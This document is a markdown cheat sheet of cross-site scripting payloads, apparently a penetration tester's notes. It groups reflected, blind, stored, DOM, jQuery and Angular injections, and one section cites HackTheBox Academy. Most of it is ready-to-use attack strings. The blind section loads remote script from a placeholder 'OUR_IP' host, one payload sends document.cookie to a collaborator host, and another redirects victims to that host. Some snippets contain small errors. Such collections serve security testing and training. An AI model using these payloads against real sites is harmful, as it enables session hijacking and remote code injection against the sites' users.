 
## Reflected XSS

```JS
'><script>alert();</script><!--
```

Redirect
```JS
<img src=x onerror="window.location.href='https://COLLABORATOR'">
```

Reflected off Javascript:
Break out of search and insert javascript with angled brackets comment out
```JS
test';alert(HACKED)//';
```

## Blind XSS

```js
<script src=http://OUR_IP></script>
```

```js
'><script src=http://OUR_IP></script>
```

```js
"><script src=http://OUR_IP></script>
```

```js
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
```

```js
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
```

```js
<script>$.getScript("http://OUR_IP")</script>
```

Steal Cookie with Picture:
```js
<script>var -=new Image;i.src="<COLLABORATOR>/?"+document.cookie;</script>
```

## Stored XSS

```js
<script>alert(document.cookie)</script>
```

```js
<script>alert(window.origin)</script>
```

```js
<script>print()</script>
```

```js
<script>document.body.style.background = "#141d2b"</script>
```

```js
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

```js
<script>document.title = 'HackTheBox Academy'</script>
```

```js
"><img src=x onerror=prompt(document.domain)>
```
```js
"><img src=x onerror=confirm(1)>
```

```js
"><img src=x onerror=alert(1)>
```

```js
<button onclick=alert(1)>click</button>
```

Add to an SVG XML Metadata:
```js
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

For href anchored form inputs, try javascript command:
```js
javascript:prompt()
```

### Dom XSS

Javascript:
```js
\"-alert(1)}//
```
```js
"><img src=x onerror=alert(1)>
```


Images:
```js
"><svg onload=alert(1)>
```

Select:
```js
"></select><img%20src=1%20onerror=alert(1)>"
```

InnerHTML:
```js
><img src=1 onerror=alert(document.domain)>
```

```js
<><img src=1 onerror=alert(1)>
```

```js
<img src="" onerror=alert(window.origin)>
```

```js
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```


JQuery
```URL
?returnUrl=javascript:alert(document.domain)
```
```jQuery
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=print()>'"> 
```                           
```jQuery
$("#todo").html('New Text');
```

Angular:
```
{{constructor.constructor('alert(1)')()}}
```

HTML:
```html
<script>
		location = 'https://vulnerable-website.com/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```
